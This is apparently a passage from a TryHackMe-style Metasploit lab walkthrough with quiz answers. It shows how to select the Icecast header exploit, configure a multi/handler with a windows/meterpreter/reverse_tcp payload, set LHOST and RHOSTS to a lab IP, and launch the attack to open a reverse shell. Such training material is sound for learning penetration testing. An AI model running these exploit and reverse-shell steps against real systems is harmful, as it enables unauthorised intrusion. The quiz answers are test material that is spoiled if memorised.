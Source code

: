 ```
```
One last thing, try the command `vulns` now. This won't show much at the current moment, however, it's worth noting that Metasploit will keep track of discovered vulnerabilities. One of the many ways the database can be leveraged quickly and powerfully. 
```
Vulnerabilities
===============

Timestamp  Host  Name  References
---------  ----  ----  ----------
```
Now that we've scanned our victim system, let's try connecting to it with a Metasploit payload. First, we'll have to search for the target payload. In Metasploit 5 (the most recent version at the time of writing) you can simply type use followed by a unique string found within only the target exploit. For example, try this out now with the following command `use icecast`. 

    2. What is the full path for our exploit that now appears on the msfconsole prompt? *This will include the exploit section at the start

exploit/windows/http/icecast_header

While that use command with the unique string can be incredibly useful that's not quite the exploit we want here. Let's now run the command `search multi/handler`.

Go ahead and run the command `use NUMBER_NEXT_TO  exploit/multi/handler `wherein the number will be what appears in that far left column (typically this will be 4 or 5). In this way, we can use our search results without typing out the full name/path of the module we want to use.

    3. What is the name of the column on the far left side of the console that shows up next to 'Name'?

\#

Now type the command `use NUMBER_FROM_PREVIOUS_QUESTION`. This is the short way to use modules returned by search results. 

Next, let's set the payload using this command `set PAYLOAD windows/meterpreter/reverse_tcp`. In this way, we can modify which payloads we want to use with our exploits. Additionally, let's run this command `set LHOST YOUR_IP_ON_TRYHACKME`. You might have to check your IP using the command ip addr, it will likely be your tun0 interface.

Let's go ahead and return to our previous exploit, run the command `use icecast` to select it again.

One last step before we can run our exploit. Run the command `set RHOSTS 10.10.103.33` to tell Metasploit which target to attack.

Once you're set those variables correctly, run the exploit now via either the command `exploit` or the command `run -j` to run this as a job.

Once we've started this, we can check all of the jobs running on the system by running the command `jobs`

After we've established our connection in the next task, we can list all of our sessions using the command sessions. Similarly, we can interact with a target session using the command `sessions -i SESSION_NUMBER`

## We're In, Now What?
